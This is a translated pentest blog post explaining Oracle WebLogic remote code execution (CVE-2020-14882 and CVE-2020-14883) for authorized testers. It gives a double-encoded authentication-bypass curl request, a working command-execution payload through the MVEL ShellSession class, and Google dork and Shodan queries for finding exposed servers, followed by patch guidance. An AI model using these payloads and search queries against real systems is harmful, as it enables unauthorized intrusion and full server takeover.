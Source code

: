 # 如何检测和利用 Oracle WebLogic RCE(CVE-2020-14882 和 CVE-2020-14883)| Pentest-Tools.com

> 原文：<https://pentest-tools.com/blog/detect-exploit-oracle-weblogic-rce-2020>

Pentesters 喜欢好的 RCE，但是，正如我们享受发现和利用它的兴奋(当然是伦理上的)，每次这些东西出现时，技术生态系统都会受到影响。

这就是为什么快速有效的侦察和漏洞评估仍然是必不可少的测试阶段，可以帮助公司管理风险，以便他们可以继续开展业务并为客户服务。凭借你的知识、经验和建议，他们可以将潜在的危险转化为让他们变得更强大的过程。

让我们更深入地了解一下在 Oracle WebLogic Server 中发现的严重 RCE 漏洞，看看如何在您的组织内外产生更大的积极影响。

## **什么是 Oracle WebLogic？**

**WebLogic Server** 是基于 Java 的应用服务器；用于开发和部署多层分布式企业应用程序的平台。webLogic Server 集中了应用程序服务，如 Web 服务器功能、业务组件和对后端企业系统的访问，还可以用作高级 Web 应用程序的主 Web 服务器。

全球超过 7000 家公司使用 WebLogic，这使它成为技术生态系统的重要组成部分。

## **Oracle WebLogic RCE 漏洞的工作原理(CVE-2020-14883)**

**CVE-2020-14882** 允许远程用户绕过管理员控制台组件中的验证。导致此漏洞的原因是服务器 URL 的**路径遍历黑名单**配置不正确，您可以在 WebLogic HTTP access 的处理程序类中找到该黑名单。

您可以通过使用双编码字符串(如`%252e%252e%252fconsole.portal`)绕过服务器 URL 的黑名单。

**CVE-2020-14883** 允许未经授权的用户**在管理员控制台组件上执行任何命令**。由此带来的风险是，未经验证的远程攻击者可以通过 HTTP 在 Oracle WebLogic server 上执行任意命令，并且**完全控制主机**。

## **易受攻击的 Oracle WebLogic 版本**

受影响的受支持版本包括 10.3.6.0.0、12.1.3.0.0、12.2.1.3.0、12.2.1.4.0 和 14.1.1.0.0。该漏洞的 CVSSv3 得分为 9.8 ，因为利用它不需要非常复杂的攻击。

自 2020 年 10 月以来，补丁已经可用，但很可能仍然存在大量易受攻击的实例。

## **如何找到易受 CVE-2020-14882 和 CVE-2020-14883 攻击的目标**

您可以使用 **Google Dorks** 通过以下搜索查询找出使用潜在易受攻击版本的 WebLogic 主机:**inurl:"/console/log in/loginform . JSP "**

![Google Dorks result](img/1dfd5f3b3bbea7780e7c946e21056b84.png)

或者，您可以使用 Shodan.io 在互联网上找到一些易受攻击的目标。您可以使用以下 Shodan 查询来查找潜在易受攻击的 WebLogic servers:

**产品:“Oracle WebLogic”**

![Shodan search query results](img/882e5dda609936a098eab5fe7c0ebf51.png)

## **CVE-2020-14882 和 CVE-2020-14883** 的业务影响

通过 RCE 访问，攻击者可以轻松进入 WebLogic server。由于获得了高权限，恶意黑客可以执行任何管理操作并完全控制应用程序。

## **如何在道德黑客活动中手动检测 CVE-2020-14882&CVE-2020-14883**

首先，您可以通过向双编码端点发送简单的 HTTP GET 请求来绕过控制台组件的身份验证，该端点包含控制台门户页面并执行 **CVE-2020-14882** 漏洞。

```
curl -k -X "GET" https://<HOST>/console/css/%252e%252e%252fconsole.portal
```

此 HTTP GET 请求会将您重定向到管理员控制台页面，这将绕过身份验证，从而确认您的目标服务器易受攻击。

然后，您将连接到目标域，并能够配置、监视和控制应用程序。

通过利用 **CVE-2020-14883，**你可以在`com.tangosol.coherence.mvel2.sh.ShellSession`类的句柄下通过 MVEL 表达式发送命令。这会导致远程代码执行，使得未经验证的恶意攻击者能够在服务器上执行任意代码。

```
curl -k -X "GET" https://<HOST>/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/pentest00ls');")
```

该 HTTP GET 请求将在目标系统的/tmp 目录中创建一个文件，并触发远程代码执行。

如果你想尝试另一种更快的探测策略，你可以使用 Pentest-Tools.com

## **如何缓解 CVE-2020-14882&CVE-2020-14883**

你可以阅读[甲骨文关键补丁更新咨询](https://www.oracle.com/security-alerts/cpuoct2020.html)并遵循他们推荐的步骤。此外，您应该尽可能将 WebLogic server 更新到最新版本。

这不是你听到的最后一个 RCE 漏洞。谁知道今年或明年(或后年)会出现多少更严重的漏洞？

有所不同的是有一个流程来区分最有价值的资产的优先级，并知道如何在它们受到高度可利用的漏洞影响时进行验证。

通过我们的实用测试指南，我们为您提供专业知识、有用的方法和有价值的见解，扩展您的知识和能力。如果您有任何需要我们报道的具体内容，请告诉我们。